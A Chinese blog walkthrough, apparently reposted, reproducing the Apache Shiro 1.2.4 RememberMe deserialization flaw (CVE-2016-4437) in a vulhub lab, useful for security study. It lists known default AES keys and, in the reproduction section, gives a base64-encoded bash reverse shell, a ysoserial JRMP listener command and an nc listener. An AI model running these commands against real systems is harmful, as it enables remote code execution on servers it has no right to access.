


# Apache Shiro 1.2.4 反序列化漏洞（CVE-2016-4437） - foe0 - 博客园

> 原文：[`www.cnblogs.com/foe0/p/12212896.html`](https://www.cnblogs.com/foe0/p/12212896.html)

### 0x01 shiro 简介：

Apache Shiro 是一个强大且易用的 Java 安全框架,执行身份验证、授权、密码和会话管理。使用 Shiro 的易于理解的 API,您可以快速、轻松地获得任何应用程序,从最小的移动应用程序到最大的网络和企业应用程序。

### 0x02 漏洞介绍：

Shiro 提供了记住我（RememberMe）的功能，比如访问如淘宝等一些网站时，关闭了浏览器下次再打开时还是能记住你是谁，下次访问时无需再登录即可访问，但是设计到一些支付等敏感操作时，可能还需要再次验证。

 而 shiro 默认使用了 CookieRememberMeManager 接口，就是 rememberme 功能,。

其处理 cookie 的流程是: 得到 rememberMe 的 cookie 值，先进行 Base64 解码，再进行 AES 解密，最后进行反序列化。

但是 shiro 本身有一个预设密钥 Base64.decode(“kPH+bIxk5D2deZiIxcaaaA==”)，漏洞的突破口也是这点，就导致了攻击者可以构造恶意数据造成反序列化的 RCE 漏洞。

攻击者可以使用 Shiro 的默认密钥伪造用户 Cookie，触发 Java 反序列化漏洞，进而在目标机器上执行任意命令。

### 0x03 漏洞影响：

Apache Shiro <= 1.2.4

事实上，只要 rememberMe 的 AES 加密密钥泄露，无论 shiro 是什么版本都会导致反序列化漏洞。

### 0x04 复现：

这是网上所搜集的一些可替换的密钥

1 kPH+bIxk5D2deZiIxcaaaA== 2 wGiHplamyXlVB11UXWol8g== 3 2AvVhdsgUs0FSA3SDFAdag== 4 4AvVhmFLUs0KTA3Kprsdag== 5 fCq+/xW488hMTCD+cmJ3aQ== 6 3AvVhmFLUs0KTA3Kprsdag== 7 1QWLxg+NYmxraMoxAXu/Iw== 8 ZUdsaGJuSmxibVI2ZHc9PQ== 9 Z3VucwAAAAAAAAAAAAAAAA== 10 U3ByaW5nQmxhZGUAAAAAAA== 11 6ZmI6I2j5Y+R5aSn5ZOlAA==

这里使用[`github.com/vulhub/vulhub/tree/master/shiro/CVE-2016-4437`](https://github.com/vulhub/vulhub/tree/master/shiro/CVE-2016-4437)的 vulhub 启动一个 shiro 环境。可以看到有一个 remember me 的选项。

 回包中有 ** rememberMe=deleteMe** 字样，可以大概确定有配置 shiro，可以进行下一步。因为 shiro 本身功能就是一个身份验证管理，所以一般都在登录口可以看到。

### 0x05 漏洞复现：

*   将 shell 反弹命令 bash -i >& /dev/tcp attackrip/port 0>&1  进行编码：[`www.jackson-t.ca/runtime-exec-payloads.html`](http://www.jackson-t.ca/runtime-exec-payloads.html)，编码后的 payload 为 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcCAxOTIuMTY4Ljc5LjE0OC8xMjM0IDA+JjEK}|{base64,-d}|{bash,-i}' 

*   启用 ysoserial 监听模块 JRMP，端口为 666： java -cp ysoserial.jar ysoserial.exploit.JRMPListener 666 CommonsCollections4 'bash -c {echo,YmFzaCAtaSA+JiAvZGV2L3RjcCAxOTIuMTY4Ljc5LjE0OC8xMjM0IDA+JjEK}|{base64,-d}|{bash,-i}'

*   监听本地反弹端口： nc -lvvp 1234，等待 shell 反弹

 

*   执行 poc 生成 rememberMe 的内容 python2 shiro_exp.py attack_ip:JRMP_port

*   抓取一个登陆的数据包

 

 